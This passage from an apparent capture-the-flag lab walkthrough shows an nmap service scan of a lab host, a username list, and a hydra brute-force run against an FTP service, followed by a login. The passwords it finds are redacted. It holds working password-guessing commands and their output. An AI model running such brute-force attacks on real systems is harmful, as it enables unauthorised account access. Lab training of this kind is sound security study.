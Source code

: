 Similarly to the previous question, we can perform an Nmap scan with the `-sV` flag to determine the service version running on port 10021.

```console
neighboursec@kali~$ nmap -sV -p 10021 10.10.204.203
Nmap scan report for 10.10.204.203
Host is up (0.015s latency).

PORT      STATE SERVICE VERSION
10021/tcp open  ftp     vsftpd 3.0.3
Service Info: OS: Unix

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 0.23 seconds
```
Aha, the service version running on this port is `vsftpd 3.0.3`.

### Question 7

This question has a tad few more steps involved in finding our flag, but it is nothing to be feared. Firstly, we'll create a wordlist with the usernames eddie and quinn, like so:

```console
neighboursec@kali~$ echo -e  "eddie\nquinn" >>  usernames.txt 
```

Now we want to use hydra to brute force the logins for these users on the FTP server, we'll use the usernames.txt file we just created for our list of users, and rockyou.txt as our password dictionary.

```console
hydra -L usernames.txt -P /usr/share/wordlists/rockyou.txt ftp://10.10.204.203:10021                                                                                                                                                    
Hydra v9.5 (c) 2023 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2024-06-05 20:41:57
[DATA] max 16 tasks per 1 server, overall 16 tasks, 28688798 login tries (l:2/p:14344399), ~1793050 tries per task
[DATA] attacking ftp://10.10.204.203:10021/
[10021][ftp] host: 10.10.204.203   login: eddie   password: PASSWORD-REDACTED
[10021][ftp] host: 10.10.204.203   login: quinn   password: PASSWORD-REDACTED
1 of 1 target successfully completed, 2 valid passwords found
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2024-06-05 20:42:30

```
Passwords in hand, we can now login to the server to find our flag.

```console
neighboursec@kali:~$ ftp eddie@10.10.204.203 10021                                                                                                                                                                                                          
Connected to 10.10.204.203.
220 (vsFTPd 3.0.3)
331 Please specify the password.
Password: 
230 Login successful.
Remote system type is UNIX.
Using binary mode to transfer files.
ftp> ls
229 Entering Extended Passive Mode (|||30016|)
150 Here comes the directory listing.
226 Directory send OK.
ftp> 
```
